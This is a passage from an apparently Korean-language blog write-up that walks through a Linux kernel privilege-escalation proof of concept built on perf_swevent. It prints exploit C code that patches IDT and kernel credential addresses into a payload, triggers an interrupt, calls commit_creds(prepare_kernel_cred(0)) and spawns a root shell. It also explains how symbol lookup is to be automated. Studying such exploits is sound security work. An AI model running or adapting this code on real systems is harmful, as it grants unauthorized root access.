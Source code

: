 ```c
	}
out:
	assert(offset);
	printf("Using int = %d with offset = %d\n", int_n, offset);

	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	trigger(offset);
	switch (int_n) {
	case 3:
		asm volatile("int $0x03");
		break;
	case 4:
		asm volatile("int $0x04");
		break;
	case 0x80:
		asm volatile("int $0x80");
	}

	assert(!setuid(0));
	return execl("/bin/bash", "-sh", NULL);
}
```

이번에는 `payload`함수의 `perf_swevent_init`, `commit_creds`, `prepare_kernel_cred`의 심볼 주소를 가져오는 부분을 자동화 해보도록 하자.

원래 PoC에서는 심볼 주소를 두곳에서 설정한다.

1. `payload()`
	```c
	void __attribute__((regparm(3))) payload() {
		uint32_t *fixptr = (void*)AB(1);
		// restore the handler
		*fixptr = -1;
		commit_creds_fn commit_creds = (commit_creds_fn)AB(2);
		prepare_kernel_cred_fn prepare_kernel_cred = (prepare_kernel_cred_fn)AB(3);
		commit_creds(prepare_kernel_cred((uint64_t)NULL));
	}
	```
	이 함수에서 `fixptr`이라는 변수명으로 `perf_swevent_enabled` 주소를 가져오고, 해당 값을 -1로 설정한다.
	이후 `commit_creds`와 `prepare_kernel_cred` 주소를 가져와 권한 상승 과정의 핵심인 `commit_creds(prepare_kernel_cred(0));`를 실행하게 된다.

	이 부분에서 `AB(x)` 매크로 호출을 통해, 실제 가젯이 들어가야 할 부분을 특수한 더미 값으로 채우는데, 디버깅 할때 메모리 서치를 편하게 하기 위해서인지, 아니면 `-O2` 옵션을 통해 컴파일 최적화를 할 때 가젯을 불러오는 부분에 최적화가 수행되어 원하지 않는 동작을 유발하는건지 모르겠지만, 특수한 더미 값이 실제 가젯이 존재해야 할 위치에 쓰이게 된다.

2. `main()`
	```c
	for (j = 0; j < 3; j++) {
		needle = AB(j+1);
		assert(p = memmem(code, 1024, &needle, 8));
		*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
	}
	```


[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>